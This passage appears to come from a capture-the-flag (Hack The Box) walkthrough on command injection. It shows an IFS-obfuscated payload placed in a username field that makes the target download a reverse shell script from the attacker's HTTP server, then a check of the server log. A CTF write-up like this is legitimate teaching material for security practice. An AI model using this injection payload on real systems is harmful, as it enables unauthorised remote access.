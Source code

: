 Now start a simple HTTP server with python using the command `python3 -m http.server`.

<figure><img src="../../.gitbook/assets/Untitled 16 (6).png" alt=""><figcaption></figcaption></figure>

Now its time to download this reverse shell on the target machine. You can use this below command to download the reverse shell on the target machine by supplying this as the value to the username field.

```bash
$(IFS=_;command='curl_http://<Your_HTB_Tunnel_IP>:8000/revshell.sh_--output_/tmp/revshell.sh';$command;)
```

{% hint style="info" %}
I have used a variable IFS in the above command. To know about it, check this out:&#x20;

[https://www.youtube.com/watch?v=so8IRuhWjEM](https://www.youtube.com/watch?v=so8IRuhWjEM)
{% endhint %}

<figure><img src="../../.gitbook/assets/Untitled 17 (7).png" alt=""><figcaption></figcaption></figure>

From the response we can see that there is no error thrown. We can verify that the reverse shell is downloaded on the target machine by checking the terminal where we hosted the simple HTTP server using python. You will be able to see a GET request to `/revshell.sh`, which shows that the file is downloaded successfully.
